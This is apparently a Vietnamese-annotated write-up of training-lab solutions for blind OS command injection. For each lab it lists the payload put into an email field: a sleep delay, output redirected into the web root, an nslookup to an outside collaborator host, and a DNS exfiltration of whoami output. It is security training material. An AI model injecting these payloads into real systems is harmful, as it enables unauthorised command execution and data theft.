 # Lab: Blind OS command injection with time delays
## Payload 
Inject vào trường email
```
;sleep 10;
```

![image](https://github.com/user-attachments/assets/e3f73878-3782-4c5e-8eee-4ea6fe99fb14)

# Lab: Blind OS command injection with output redirection
## Payload 
Inject vào trường email
```
;whoami > /var/www/images/alo.txt;
```

![image](https://github.com/user-attachments/assets/a40abd15-fc41-4a60-b192-39d95fb60fd6)

# Lab: Blind OS command injection with out-of-band interaction
## Payload 
Inject vào trường email
```
;nslookup i7qyxq1j56biqqdys413y61u8lec22qr.oastify.com;
```
![image](https://github.com/user-attachments/assets/db9ac0dc-22bd-400b-a938-09d5223432c6)

# Lab: Blind OS command injection with out-of-band data exfiltration
## Payload 
Inject vào trường email
```
; nslookup `whoami`.i7qyxq1j56biqqdys413y61u8lec22qr.oastify.com ;
```
## Flag 
peter-Z8Uewl

![image](https://github.com/user-attachments/assets/3505836c-0335-4a5c-afdb-4cadf5da861a)


